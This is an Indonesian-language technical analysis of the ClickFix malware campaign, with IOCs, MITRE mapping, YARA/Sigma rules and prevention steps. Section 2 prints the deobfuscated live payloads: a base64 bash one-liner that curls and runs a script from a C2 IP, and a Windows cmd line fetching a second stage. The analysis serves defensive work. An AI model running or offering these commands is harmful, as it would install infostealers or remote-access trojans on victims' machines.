

# Membongkar Kampanye Malware ClickFix: Analisis Teknis dan Cara Mengatasi

Dunia kejahatan siber terus berevolusi dengan taktik yang semakin cerdas dan manipulatif. Salah satu tren ancaman paling berbahaya yang marak terjadi belakangan ini adalah **ClickFix Malware Campaign**. 

Berbeda dengan serangan phishing pasif yang hanya mencuri kredensial lewat formulir palsu, kampanye ClickFix memaksa korban secara sadar menjalankan perintah berbahaya pada komputer mereka sendiri dengan kedok menyelesaikan verifikasi keamanan.

Dalam artikel ini, kita akan melakukan analisis teknis mendalam (*deobfuscation*) terhadap alur serangan ClickFix, membedah payload yang disuntikkan, memetakan indikator infeksi (IOC), serta memberikan panduan cara mendeteksi dan mencegah ancaman ini.

---

## 1. Ringkasan Eksekutif (Executive Summary)

Metode serangan ini menggabungkan teknik manipulasi psikologis (*social engineering*) tingkat tinggi dengan infeksi malware multi-tahap (*multi-stage loader*):
* **Modus Penyamaran**: Pelaku membuat situs web palsu yang meniru halaman verifikasi manusia (CAPTCHA) milik **Cloudflare**.
* **Domain Typosquatting**: Pelaku mendaftarkan domain plesetan yang sangat mirip dengan merek terkenal (contoh: `openaaii.com` yang memelesetkan situs resmi OpenAI).
* **Taktik ClickFix**: Halaman verifikasi palsu memandu pengguna untuk menekan tombol kombinasi tombol **Windows + R** (Win+R), lalu menempelkan (**Ctrl + V**) perintah rahasia yang telah disalin otomatis ke clipboard korban, dan menekan **Enter**.
* **Payload Delivery**: Perintah clipboard tersebut akan mengunduh dan mengeksekusi skrip berbahaya (*payload*) dari server luar secara senyap untuk menginfeksi sistem operasi (mendukung infeksi hibrida Windows & Linux).

---

## 2. Analisis Payload (Deobfuscation Result)

Ketika pengguna mengklik tombol *"Verify you are human"* di situs web palsu tersebut, sebuah kode perintah berbahaya secara otomatis disalin ke clipboard pengguna tanpa mereka sadari. 

Berikut adalah hasil bedah kode (*deobfuscation*) dari payload yang dieksekusi:

### Stage 1: Deteksi & Eksekusi Linux (Bash)
Untuk pengguna Linux, payload yang disalin berupa perintah Base64 terenkripsi yang didekodekan lalu dijalankan langsung via shell Bash:

```bash
echo 'L2Jpbi9iYXNoIC1jICIkKGN1cmwgLWZzU0wgaHR0cDovLzE3OC4xNi41My41MC9CaXdhdGF6YXApIg==' | base64 -d | bash
```

Setelah dilakukan decoding Base64 tahap pertama, perintah tersebut menghasilkan kode berikut:
```bash
/bin/bash -c "$(curl -fsSL http://178.16.53.50/Biwatazap)"
```
*   **Analisis**: Perintah ini mengunduh script eksekusi dari server kontrol (C2) dengan alamat IP `178.16.53.50` menggunakan *tool* `curl` dan langsung mengeksekusinya di terminal Bash.

### Stage 2: Windows Loader (CMD / PowerShell)
Untuk pengguna Windows, payload clipboard yang dieksekusi melalui jendela *Run* (Win+R) akan memicu perintah Command Prompt (`cmd.exe`) atau PowerShell untuk mengunduh malware tahap kedua:

```cmd
cmd /c cd %tmp% & start /b "" cmd /c set "i=curl -Ls -o d integercdn.com/Y"
```

*   **Analisis**:
    1.  Proses berpindah direktori kerja ke folder temporer sistem (`%tmp%`).
    2.  Meluncurkan proses latar belakang senyap (`start /b`).
    3.  Menggunakan `curl` untuk mengunduh payload dari domain pengiriman konten palsu **`integercdn.com/Y`** dan menyimpannya dengan nama file acak **`d`**.
    4.  Mengekstrak berkas payload tersebut (menggunakan perkakas bawaan seperti `tar`) dan mengeksekusinya untuk mengompromikan sistem Windows sepenuhnya.

---

## 3. Rantai Serangan (Attack Chain / Kill Chain)

Alur serangan secara sistematis dapat digambarkan melalui bagan alur di bawah ini:



Malware akhir yang dipasang melalui rantai serangan ini biasanya berupa **Infostealer** (seperti *Lumma Stealer* atau *Rhadamanthys*) yang mencuri kata sandi perbankan/browser, atau **RAT** (*Remote Access Trojan* seperti *AsyncRAT* atau *Remcos*) untuk mengendalikan komputer korban secara penuh dari jarak jauh.

---

## 4. Pemetaan MITRE ATT&CK

Teknik serangan ClickFix ini memetakan beberapa taktik pada kerangka kerja MITRE ATT&CK:

| Taktik | ID Teknik | Nama Teknik / Deskripsi |
| :--- | :--- | :--- |
| **Initial Access** | T1566.002 | *Spearphishing Link* (tautan email/chat ke situs typosquatting) |
| | T1189 | *Drive-by Compromise* (akses halaman verifikasi palsu) |
| **Execution** | T1059.001 | *PowerShell* |
| | T1059.003 | *Windows Command Shell* |
| | T1059.004 | *Unix Shell (Bash)* |
| **Defense Evasion** | T1027 | *Obfuscated Files/Information* (enkripsi Base64 & obfuscation JS) |
| | T1140 | *Deobfuscate/Decode Files or Information* |
| **Command & Control** | T1071.001 | *Web Protocols (HTTP C2)* |
| | T1105 | *Ingress Tool Transfer* (mengunduh file payload via `curl`) |

---

## 5. Indikator Infeksi (Indicators of Compromise - IOC)

Gunakan daftar indikator berikut untuk melakukan deteksi dan pemblokiran pada jaringan Anda:

### Domain & URL Berbahaya
*   `openaaii.com` (Phishing & typosquatting)
*   `integercdn.com` (CDN server hosting payload kedua)
*   `http://178.16.53.50/Biwatazap` (C2 server script eksekusi Linux)

### Alamat IP
*   `178.16.53.50`

### Pola Perintah Mencurigakan (Command Patterns)
*   `curl -fsSL`
*   `curl -Ls -o`
*   `base64 -d | bash`
*   `cmd /c start /b`
*   `tar -xf` (mengekstrak payload lokal)

---

## 6. Aturan Deteksi (Detection Rules)

### Aturan YARA (Untuk Pemindaian File / Memori)
Aturan YARA berikut dapat digunakan untuk mendeteksi script CAPTCHA palsu atau payload ClickFix:

```yara
rule ClickFix_Phishing_Loader
{
    meta:
        description = "Detects ClickFix-style Cloudflare phishing loader code patterns"
        author = "Kaela IR Analysis"
        severity = "critical"

    strings:
        $a1 = "base64 -d | bash"
        $a2 = "curl -fsSL"
        $a3 = "cmd /c start /b"
        $a4 = "Win+R"
        $a5 = "Verify you are human"
        $a6 = "integercdn.com"

    condition:
        3 of them
}
```

### Aturan Sigma (Untuk Deteksi Aktivitas Sistem / Log Windows)
Aturan Sigma ini memantau aktivitas proses Windows yang mencurigakan yang dipicu melalui kotak *Run*:

```yaml
title: ClickFix Fake Cloudflare Execution Attempt
logsource:
  product: windows
  category: process_creation

detection:
  selection:
    CommandLine|contains:
      - "curl"
      - "base64 -d"
      - "cmd /c start /b"
      - "powershell"
      - "integercdn.com"

  condition: selection

level: critical
```

---

## 7. Cara Mengatasi dan Mencegah Serangan ClickFix

Jika Anda menemukan atau secara tidak sengaja berinteraksi dengan situs jenis ini, lakukan langkah pencegahan berikut:

1.  **Hentikan Interaksi & Tutup Browser**: Jangan pernah mengikuti petunjuk pintasan keyboard (seperti menekan **Win+R** lalu menempelkan teks) yang diminta oleh situs web apa pun. Cloudflare asli tidak pernah meminta Anda mengeksekusi perintah terminal untuk memverifikasi diri Anda.
2.  **Gunakan Ekstensi Proteksi Clipboard**: Batasi akses browser untuk memodifikasi clipboard secara sepihak tanpa interaksi eksplisit Anda (salin manual dengan menyorot teks).
3.  **Audit Folder Temp**: Jika Anda terlanjur menjalankan perintah tersebut, segera putuskan koneksi internet, lalu periksa folder `%tmp%` di Windows atau `/tmp` di Linux untuk mencari file mencurigakan seperti `d` atau `Y`.
4.  **Jalankan Pemindaian Antivirus Penuh**: Gunakan perangkat lunak antivirus/EDR (*Endpoint Detection and Response*) tepercaya untuk memindai dan membersihkan proses yang terinfeksi.

## Kesimpulan

Serangan ClickFix membuktikan bahwa aspek terlemah dalam keamanan informasi sering kali bukanlah kerentanan perangkat lunak, melainkan rekayasa sosial yang menipu psikologis manusia. Melalui peningkatan pemahaman (*cybersecurity awareness*) dan pengawasan log aktivitas proses (seperti deteksi penggunaan `curl` mencurigakan di terminal), kita dapat meminimalkan dampak dari serangan siber modern ini.

Tetap waspada dan amankan sistem digital Anda!
